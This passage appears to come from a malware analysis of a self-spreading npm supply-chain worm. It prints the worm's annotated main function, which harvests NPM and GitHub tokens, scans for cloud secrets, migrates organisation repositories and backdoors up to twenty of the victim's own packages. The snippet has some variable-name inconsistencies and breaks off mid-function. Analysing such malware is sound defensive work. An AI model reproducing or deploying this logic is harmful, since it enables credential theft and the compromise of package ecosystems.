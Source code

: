 It has 5 core attack modules: GitHubModule, AWSModule, GCPModule, TruffleHogModule and NpmModule. In the following sections, we will delve into the specific capabilities of each module. Another notable aspect of the code is its data exfiltration format.

<img src="/static/NPM/image-42.png" alt="drawing" width="1000"/>

Full code:
```
async function main() {
    // 1. SYSTEM RECONNAISSANCE
    const t = (0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.getSystemInfo)();
    
    // 2. INITIALIZE ATTACK MODULES
    const r_GitHubModule = new GitHubModule();
    const n_AWSModule = new AWSModule();
    const F_GCPModule = new GCPModule();
    const te_TruffleHogModule = new TruffleHogModule();
    
    // 3. NPM TOKEN HARVESTING
    let re_NPM_TOKEN = process.env.NPM_TOKEN;
    re_NPM_TOKEN || (re_NPM_TOKEN = (0,_lib_utils__WEBPACK_IMPORTED_MODULE_1__.parseNpmToken)() ?? void 0);
    const ne_NpmModule = new NpmModule(re_NPM_TOKEN);

    // 4. GITHUB ATTACK CHAIN
    let oe = null, ie = false;
    if (r_GitHubModule.isAuthenticated() && ((0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isLinux)() || (0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isMac)())) {
        const t_CurrentToken = r_GitHubModule.getCurrentToken();
        const n_getUser = await r_GitHubModule.getUser();
        
        if (null != t_CurrentToken && (t_CurrentToken.startsWith("ghp_") || t_CurrentToken.startsWith("gho_")) && n_getUser) {
            await r_GitHubModule.extraction(t_CurrentToken); // Run processor.sh
            
            const F_orgs = await r_GitHubModule.getOrgs();
            for (const t of F_orgs) {
                await r_GitHubModule.migration(n_getUser.login, t, r_GitHubModule.getCurrentToken()); // Run migrate-repos.sh
            }
        }
    }

    // 5. PARALLEL ATTACK VECTORS
    const [se_npm_user, ae_is_valid_token] = await Promise.all([
        // NPM BACKDOOR
        (async () => {
            try {
                oe_npm_user = await ne_NpmModule.validateToken();
                ie_valid_token = !!oe_validateToken;
                
                if (oe_validateToken && ((0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isLinux)() || (0,_utils_os__WEBPACK_IMPORTED_MODULE_0__.isMac)())) {
                    const t_getPackagesByMaintainer = await ne_NpmModule.getPackagesByMaintainer(oe_npm_user, 20);
                    await Promise.all(t_getPackagesByMaintainer.map(async t => {
                        try {
                            await ne_NpmModule.updatePackage(t_getPackagesByMaintainer) // Backdoor packages
                        } catch (t) {}
                    }));
                }
            } catch (t) {}
            return { npmUsername: oe_npm_user, npmTokenValid: ie_is_valid_token };
```